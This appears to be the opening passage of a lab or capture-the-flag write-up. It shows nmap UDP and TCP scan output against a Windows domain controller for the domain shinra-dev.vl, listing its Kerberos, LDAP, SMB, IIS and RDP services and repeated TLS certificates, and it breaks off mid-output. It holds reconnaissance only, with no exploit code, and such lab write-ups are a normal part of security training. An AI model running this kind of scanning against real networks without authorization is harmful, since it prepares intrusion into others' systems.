





The initial UDP scan shows the following:

```bash
└─$ nmap -F -sU 172.16.11.101
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-20 14:47 +0100
Nmap scan report for 172.16.11.101
Host is up (0.028s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
123/udp open  ntp
137/udp open  netbios-ns

Nmap done: 1 IP address (1 host up) scanned in 2.84 seconds

```

Where instead the TCP scan shows much more informations:

```bash
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2026-03-20 14:07:54Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: shinra-dev.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.shinra-dev.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.shinra-dev.vl
| Issuer: commonName=shinra-dev-CA/domainComponent=shinra-dev
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-07T22:17:41
| Not valid after:  2026-05-07T22:17:41
| MD5:     f97f 2386 952c 8d9c 42bb 5cb6 b974 d483
| SHA-1:   0a42 f3f3 74f1 4feb ffd0 aa5d b607 d578 b4b8 d595
| SHA-256: 8081 3f5b bf40 3311 6e70 a08f 43c6 d40d c8ef 62ca 8d7b ea10 ea27 b315 b46d 730b
| -----BEGIN CERTIFICATE-----
| MIIGLDCCBRSgAwIBAgITIAAAAAVuIQfEscBkNAAAAAAABTANBgkqhkiG9w0BAQsF
| ADBIMRIwEAYKCZImiZPyLGQBGRYCdmwxGjAYBgoJkiaJk/IsZAEZFgpzaGlucmEt
| ZGV2MRYwFAYDVQQDEw1zaGlucmEtZGV2LUNBMB4XDTI1MDUwNzIyMTc0MVoXDTI2
| MDUwNzIyMTc0MVowGzEZMBcGA1UEAxMQZGMuc2hpbnJhLWRldi52bDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBALLL3EvcleCNHo0dy3kf3Co4LcUB70fp
| r4oKRdP3S58vFQUFOPjONn61O19CDg9Er/OVYcBqOnwB/DnF2gOYkknFVB9VIXg+
| Jzyzsz0yzR25z6mWkJEEnRw4QIsqYEqlIjMsNAf7PYF336cGYF/Lhxv0+VkdUcn+
| MweMjlIaSbHHATR/UCB3C9c3IxaBRAWyvU1fqjXKHT4/rldPF0dBD3jf+Ib0ULe2
| pjTGPHQP+Rk1A37Ki6DG0sgDuHWO66hSCRPSi0BVlFzVkatcInQNwMRNOUMpwKKY
| m5SLeixmXRuDtH2xlCtt/aVRsAl7mdVW4Qsf4NQ4psOkdvL/iQIX/LsCAwEAAaOC
| AzowggM2MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFEfCIM/q
| jno3PLfmpUT/1yb1yK+NMB8GA1UdIwQYMBaAFPrZ237U2QHZqUU8gaeeK/NNZDSB
| MIHIBgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPXNoaW5yYS1kZXYt
| Q0EsQ049ZGMsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9c2hpbnJhLWRldixEQz12bD9jZXJ0
| aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJp
| YnV0aW9uUG9pbnQwgcEGCCsGAQUFBwEBBIG0MIGxMIGuBggrBgEFBQcwAoaBoWxk
| YXA6Ly8vQ049c2hpbnJhLWRldi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zaGlucmEt
| ZGV2LERDPXZsP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZp
| Y2F0aW9uQXV0aG9yaXR5MDwGA1UdEQQ1MDOgHwYJKwYBBAGCNxkBoBIEEIcU+Lde
| T2FOgNJxSnhk/JKCEGRjLnNoaW5yYS1kZXYudmwwTQYJKwYBBAGCNxkCBEAwPqA8
| BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTEwMjkyODI3My0zMzMxODU1MjktMzY0
| MjYyNzQyMS0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQCB9k6Vg723fOFcPQ5ThABg
| UbfIsbw4gvVU11qXyGPFQ3rn2EDADYGGDPOH9Wma4lw7RXqo4OpsLG805whkjptk
| LEAzTHPsVdCXRywphtsXQkvt5wpQ1EjRpCBUWRauJyJscRH1RNvVFO7PtsWNA8Px
| POFn4pojj4BvHSNHMUJTv9iu/z6iUpyJjiiQutCSE3li/LVo085t3xdIzW3c8HZo
| vIrsA6x3+Wa2OMJRuDoRL+TkDusvQ+amx5o/mUvlmVcswnaHsv5BBZLWscb4FxIP
| jB+ckG+qMTKhQq793CRPotfvP5zG1nBq4bCexppXYj5TGkMEXfkWPwsbo06um3gf
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-20T14:09:52+00:00; +1s from scanner time.
443/tcp   open  ssl/http      syn-ack ttl 64 Microsoft IIS httpd 10.0
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=shinra-dev-CA/domainComponent=shinra-dev
| Issuer: commonName=shinra-dev-CA/domainComponent=shinra-dev
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-12-21T18:36:25
| Not valid after:  2121-12-21T18:46:25
| MD5:     fd2f 1502 589d 9a01 c7fd 9947 9472 a540
| SHA-1:   b269 64cc bb34 cf17 90e0 0e8f 2767 3bf5 199d f3d6
| SHA-256: bbb6 b253 cb5b 0db2 ec8b 0022 dcc3 3898 cf8a 6625 d0ca 921e fac7 b6c8 75e0 8bcf
| -----BEGIN CERTIFICATE-----
| MIIDbTCCAlWgAwIBAgIQeu3L76dO06pEbTeQky9gRTANBgkqhkiG9w0BAQsFADBI
| MRIwEAYKCZImiZPyLGQBGRYCdmwxGjAYBgoJkiaJk/IsZAEZFgpzaGlucmEtZGV2
| MRYwFAYDVQQDEw1zaGlucmEtZGV2LUNBMCAXDTIyMTIyMTE4MzYyNVoYDzIxMjEx
| MjIxMTg0NjI1WjBIMRIwEAYKCZImiZPyLGQBGRYCdmwxGjAYBgoJkiaJk/IsZAEZ
| FgpzaGlucmEtZGV2MRYwFAYDVQQDEw1zaGlucmEtZGV2LUNBMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvopHYuTN2JiWs9Z1EFGdXwrNmKBl2KSmQvWt
| WnweUxZwZV8hbu62q8/6OQR46Vy71P4xD+06xpGjNs4iO6pwokvOSUpRhg4XeERE
| hN/16wGS1nmQFHpJbto1vCIyRX8gYFJ6IN3jWy3s+R2j1mKkeRM8xUbgC1UJ1YwE
| zwrvbED6g647X0l7ZZItnVAbLS1sp0dLdK+ZAgaLB9Kve2psa2p476kt/CqBR47W
| 4qs8cqQfZA1ZOELbtZ124VHFqjHZq7j1bhI5GcahT4NIi0C5VbvcU3nK9Ol9E7en
| L3MG+H+jxE5yLo/dewL6S+DZjD0IPbXYvldr9NRIz8d9Ncgn8wIDAQABo1EwTzAL
| BgNVHQ8EBAMCAYYwDwYDVR0TAQH/BAUwAwEB/zAdBgNVHQ4EFgQU+tnbftTZAdmp
| RTyBp54r801kNIEwEAYJKwYBBAGCNxUBBAMCAQAwDQYJKoZIhvcNAQELBQADggEB
| ABxyOCb8KFPG9ey4J7u/rt++z+CyuHpNwZI5rU959pJ1Mhff6GS8Huy4qssYLVix
| 7byr5swcaF+ipnd6UqSvKr8ITnkMXSF/yGRtHBu0k4Lbu0TCjGrsECZ1DPPKN6da
| LUR1QqAjL8tRYS7SGQ65hTv81E38+f3H9OLDYd+FgPMIiKjtCSYQJEgumOVrmKkC
| McacLwrkalZkSxcadyiuSSnyxnD3M9psLXEz92qqygoP9O+Px2sYbgIleGW/lJb2
| 6RuukgX2NYF81Wxk5UwMhQSbBit+PsYq+7hPwebfx7eG4LFFdZMhCz+KgGrMWRlQ
| 5/09uGhgqf9m5YbAuaXhFZI=
|_-----END CERTIFICATE-----
|_http-server-header: Microsoft-IIS/10.0
|_ssl-date: 2026-03-20T14:09:52+00:00; +1s from scanner time.
445/tcp   open  microsoft-ds  syn-ack ttl 64 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: SHINRA-DEV)
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: shinra-dev.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.shinra-dev.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.shinra-dev.vl
| Issuer: commonName=shinra-dev-CA/domainComponent=shinra-dev
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-07T22:17:41
| Not valid after:  2026-05-07T22:17:41
| MD5:     f97f 2386 952c 8d9c 42bb 5cb6 b974 d483
| SHA-1:   0a42 f3f3 74f1 4feb ffd0 aa5d b607 d578 b4b8 d595
| SHA-256: 8081 3f5b bf40 3311 6e70 a08f 43c6 d40d c8ef 62ca 8d7b ea10 ea27 b315 b46d 730b
| -----BEGIN CERTIFICATE-----
| MIIGLDCCBRSgAwIBAgITIAAAAAVuIQfEscBkNAAAAAAABTANBgkqhkiG9w0BAQsF
| ADBIMRIwEAYKCZImiZPyLGQBGRYCdmwxGjAYBgoJkiaJk/IsZAEZFgpzaGlucmEt
| ZGV2MRYwFAYDVQQDEw1zaGlucmEtZGV2LUNBMB4XDTI1MDUwNzIyMTc0MVoXDTI2
| MDUwNzIyMTc0MVowGzEZMBcGA1UEAxMQZGMuc2hpbnJhLWRldi52bDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBALLL3EvcleCNHo0dy3kf3Co4LcUB70fp
| r4oKRdP3S58vFQUFOPjONn61O19CDg9Er/OVYcBqOnwB/DnF2gOYkknFVB9VIXg+
| Jzyzsz0yzR25z6mWkJEEnRw4QIsqYEqlIjMsNAf7PYF336cGYF/Lhxv0+VkdUcn+
| MweMjlIaSbHHATR/UCB3C9c3IxaBRAWyvU1fqjXKHT4/rldPF0dBD3jf+Ib0ULe2
| pjTGPHQP+Rk1A37Ki6DG0sgDuHWO66hSCRPSi0BVlFzVkatcInQNwMRNOUMpwKKY
| m5SLeixmXRuDtH2xlCtt/aVRsAl7mdVW4Qsf4NQ4psOkdvL/iQIX/LsCAwEAAaOC
| AzowggM2MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFEfCIM/q
| jno3PLfmpUT/1yb1yK+NMB8GA1UdIwQYMBaAFPrZ237U2QHZqUU8gaeeK/NNZDSB
| MIHIBgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPXNoaW5yYS1kZXYt
| Q0EsQ049ZGMsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9c2hpbnJhLWRldixEQz12bD9jZXJ0
| aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJp
| YnV0aW9uUG9pbnQwgcEGCCsGAQUFBwEBBIG0MIGxMIGuBggrBgEFBQcwAoaBoWxk
| YXA6Ly8vQ049c2hpbnJhLWRldi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zaGlucmEt
| ZGV2LERDPXZsP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZp
| Y2F0aW9uQXV0aG9yaXR5MDwGA1UdEQQ1MDOgHwYJKwYBBAGCNxkBoBIEEIcU+Lde
| T2FOgNJxSnhk/JKCEGRjLnNoaW5yYS1kZXYudmwwTQYJKwYBBAGCNxkCBEAwPqA8
| BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTEwMjkyODI3My0zMzMxODU1MjktMzY0
| MjYyNzQyMS0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQCB9k6Vg723fOFcPQ5ThABg
| UbfIsbw4gvVU11qXyGPFQ3rn2EDADYGGDPOH9Wma4lw7RXqo4OpsLG805whkjptk
| LEAzTHPsVdCXRywphtsXQkvt5wpQ1EjRpCBUWRauJyJscRH1RNvVFO7PtsWNA8Px
| POFn4pojj4BvHSNHMUJTv9iu/z6iUpyJjiiQutCSE3li/LVo085t3xdIzW3c8HZo
| vIrsA6x3+Wa2OMJRuDoRL+TkDusvQ+amx5o/mUvlmVcswnaHsv5BBZLWscb4FxIP
| jB+ckG+qMTKhQq793CRPotfvP5zG1nBq4bCexppXYj5TGkMEXfkWPwsbo06um3gf
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-20T14:09:52+00:00; +1s from scanner time.
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: shinra-dev.vl, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-20T14:09:52+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=dc.shinra-dev.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.shinra-dev.vl
| Issuer: commonName=shinra-dev-CA/domainComponent=shinra-dev
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-07T22:17:41
| Not valid after:  2026-05-07T22:17:41
| MD5:     f97f 2386 952c 8d9c 42bb 5cb6 b974 d483
| SHA-1:   0a42 f3f3 74f1 4feb ffd0 aa5d b607 d578 b4b8 d595
| SHA-256: 8081 3f5b bf40 3311 6e70 a08f 43c6 d40d c8ef 62ca 8d7b ea10 ea27 b315 b46d 730b
| -----BEGIN CERTIFICATE-----
| MIIGLDCCBRSgAwIBAgITIAAAAAVuIQfEscBkNAAAAAAABTANBgkqhkiG9w0BAQsF
| ADBIMRIwEAYKCZImiZPyLGQBGRYCdmwxGjAYBgoJkiaJk/IsZAEZFgpzaGlucmEt
| ZGV2MRYwFAYDVQQDEw1zaGlucmEtZGV2LUNBMB4XDTI1MDUwNzIyMTc0MVoXDTI2
| MDUwNzIyMTc0MVowGzEZMBcGA1UEAxMQZGMuc2hpbnJhLWRldi52bDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBALLL3EvcleCNHo0dy3kf3Co4LcUB70fp
| r4oKRdP3S58vFQUFOPjONn61O19CDg9Er/OVYcBqOnwB/DnF2gOYkknFVB9VIXg+
| Jzyzsz0yzR25z6mWkJEEnRw4QIsqYEqlIjMsNAf7PYF336cGYF/Lhxv0+VkdUcn+
| MweMjlIaSbHHATR/UCB3C9c3IxaBRAWyvU1fqjXKHT4/rldPF0dBD3jf+Ib0ULe2
| pjTGPHQP+Rk1A37Ki6DG0sgDuHWO66hSCRPSi0BVlFzVkatcInQNwMRNOUMpwKKY
| m5SLeixmXRuDtH2xlCtt/aVRsAl7mdVW4Qsf4NQ4psOkdvL/iQIX/LsCAwEAAaOC
| AzowggM2MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFEfCIM/q
| jno3PLfmpUT/1yb1yK+NMB8GA1UdIwQYMBaAFPrZ237U2QHZqUU8gaeeK/NNZDSB
| MIHIBgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPXNoaW5yYS1kZXYt
| Q0EsQ049ZGMsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9c2hpbnJhLWRldixEQz12bD9jZXJ0
| aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJp
| YnV0aW9uUG9pbnQwgcEGCCsGAQUFBwEBBIG0MIGxMIGuBggrBgEFBQcwAoaBoWxk
| YXA6Ly8vQ049c2hpbnJhLWRldi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zaGlucmEt
| ZGV2LERDPXZsP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZp
| Y2F0aW9uQXV0aG9yaXR5MDwGA1UdEQQ1MDOgHwYJKwYBBAGCNxkBoBIEEIcU+Lde
| T2FOgNJxSnhk/JKCEGRjLnNoaW5yYS1kZXYudmwwTQYJKwYBBAGCNxkCBEAwPqA8
| BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTEwMjkyODI3My0zMzMxODU1MjktMzY0
| MjYyNzQyMS0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQCB9k6Vg723fOFcPQ5ThABg
| UbfIsbw4gvVU11qXyGPFQ3rn2EDADYGGDPOH9Wma4lw7RXqo4OpsLG805whkjptk
| LEAzTHPsVdCXRywphtsXQkvt5wpQ1EjRpCBUWRauJyJscRH1RNvVFO7PtsWNA8Px
| POFn4pojj4BvHSNHMUJTv9iu/z6iUpyJjiiQutCSE3li/LVo085t3xdIzW3c8HZo
| vIrsA6x3+Wa2OMJRuDoRL+TkDusvQ+amx5o/mUvlmVcswnaHsv5BBZLWscb4FxIP
| jB+ckG+qMTKhQq793CRPotfvP5zG1nBq4bCexppXYj5TGkMEXfkWPwsbo06um3gf
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: shinra-dev.vl, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-20T14:09:52+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=dc.shinra-dev.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.shinra-dev.vl
| Issuer: commonName=shinra-dev-CA/domainComponent=shinra-dev
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-07T22:17:41
| Not valid after:  2026-05-07T22:17:41
| MD5:     f97f 2386 952c 8d9c 42bb 5cb6 b974 d483
| SHA-1:   0a42 f3f3 74f1 4feb ffd0 aa5d b607 d578 b4b8 d595
| SHA-256: 8081 3f5b bf40 3311 6e70 a08f 43c6 d40d c8ef 62ca 8d7b ea10 ea27 b315 b46d 730b
| -----BEGIN CERTIFICATE-----
| MIIGLDCCBRSgAwIBAgITIAAAAAVuIQfEscBkNAAAAAAABTANBgkqhkiG9w0BAQsF
| ADBIMRIwEAYKCZImiZPyLGQBGRYCdmwxGjAYBgoJkiaJk/IsZAEZFgpzaGlucmEt
| ZGV2MRYwFAYDVQQDEw1zaGlucmEtZGV2LUNBMB4XDTI1MDUwNzIyMTc0MVoXDTI2
| MDUwNzIyMTc0MVowGzEZMBcGA1UEAxMQZGMuc2hpbnJhLWRldi52bDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBALLL3EvcleCNHo0dy3kf3Co4LcUB70fp
| r4oKRdP3S58vFQUFOPjONn61O19CDg9Er/OVYcBqOnwB/DnF2gOYkknFVB9VIXg+
| Jzyzsz0yzR25z6mWkJEEnRw4QIsqYEqlIjMsNAf7PYF336cGYF/Lhxv0+VkdUcn+
| MweMjlIaSbHHATR/UCB3C9c3IxaBRAWyvU1fqjXKHT4/rldPF0dBD3jf+Ib0ULe2
| pjTGPHQP+Rk1A37Ki6DG0sgDuHWO66hSCRPSi0BVlFzVkatcInQNwMRNOUMpwKKY
| m5SLeixmXRuDtH2xlCtt/aVRsAl7mdVW4Qsf4NQ4psOkdvL/iQIX/LsCAwEAAaOC
| AzowggM2MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFEfCIM/q
| jno3PLfmpUT/1yb1yK+NMB8GA1UdIwQYMBaAFPrZ237U2QHZqUU8gaeeK/NNZDSB
| MIHIBgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPXNoaW5yYS1kZXYt
| Q0EsQ049ZGMsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9c2hpbnJhLWRldixEQz12bD9jZXJ0
| aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJp
| YnV0aW9uUG9pbnQwgcEGCCsGAQUFBwEBBIG0MIGxMIGuBggrBgEFBQcwAoaBoWxk
| YXA6Ly8vQ049c2hpbnJhLWRldi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zaGlucmEt
| ZGV2LERDPXZsP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZp
| Y2F0aW9uQXV0aG9yaXR5MDwGA1UdEQQ1MDOgHwYJKwYBBAGCNxkBoBIEEIcU+Lde
| T2FOgNJxSnhk/JKCEGRjLnNoaW5yYS1kZXYudmwwTQYJKwYBBAGCNxkCBEAwPqA8
| BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTEwMjkyODI3My0zMzMxODU1MjktMzY0
| MjYyNzQyMS0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQCB9k6Vg723fOFcPQ5ThABg
| UbfIsbw4gvVU11qXyGPFQ3rn2EDADYGGDPOH9Wma4lw7RXqo4OpsLG805whkjptk
| LEAzTHPsVdCXRywphtsXQkvt5wpQ1EjRpCBUWRauJyJscRH1RNvVFO7PtsWNA8Px
| POFn4pojj4BvHSNHMUJTv9iu/z6iUpyJjiiQutCSE3li/LVo085t3xdIzW3c8HZo
| vIrsA6x3+Wa2OMJRuDoRL+TkDusvQ+amx5o/mUvlmVcswnaHsv5BBZLWscb4FxIP
| jB+ckG+qMTKhQq793CRPotfvP5zG1nBq4bCexppXYj5TGkMEXfkWPwsbo06um3gf
|_-----END CERTIFICATE-----
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2026-03-20T14:09:52+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=dc.shinra-dev.vl
| Issuer: commonName=dc.shinra-dev.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-11-05T07:08:27
| Not valid after:  2026-05-07T07:08:27
